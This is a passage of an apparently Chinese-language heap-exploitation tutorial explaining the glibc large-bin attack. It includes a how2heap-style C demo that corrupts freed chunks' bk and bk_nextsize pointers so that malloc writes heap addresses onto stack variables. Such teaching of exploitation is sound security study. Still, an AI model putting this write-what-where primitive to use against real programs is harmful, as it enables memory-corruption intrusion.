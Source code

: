 

&emsp;&emsp;<font size=2>接下来就是`large-bin attack`环节了，这个应该也是常规堆利用手法里的最后一种了，`large-bin attack`的利用效果就是往任意地址写入一个堆地址，利用完了之后跟`unsorted-bin attack`一样链表就废了，只能利用一次。话不多说直接看demo，我略微改了一下shellphish的脚本：</font></br>

```C
#include<stdio.h>
#include<stdlib.h>
 
int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    unsigned long *p1 = malloc(0x320);
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    malloc(0x20);

    unsigned long *p3 = malloc(0x410);
    malloc(0x20);

    // 得到两个unsorted-bin
    free(p1);
    free(p2);

  	// p1和p2先被放入smallbin和largebin链表
    // 因为找不到合适大小的unsorted-bin，smallbin被拿出来切割
    // 又成为一块unsorted-bin，因此此时堆块结构为一块unsorted-bin和一块larrge-bin
    malloc(0x90);

  	// 再得到一块unsorted-bin
    free(p3);
 
    p2[0] = 0;		// fd
    p2[2] = 0;		// fd_nextsize
    p2[1] = (unsigned long)(&stack_var1 - 2);		// bk
    p2[3] = (unsigned long)(&stack_var2 - 4);		// bk_nextsize

  	// 第二块unsorted-bin被放入large-bin list
    // 发生large-bin attack
    malloc(0x90);
 
    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}

```

&emsp;&emsp;<font size=2>我们来看看相关的`large-bin`管理代码：</font></br>
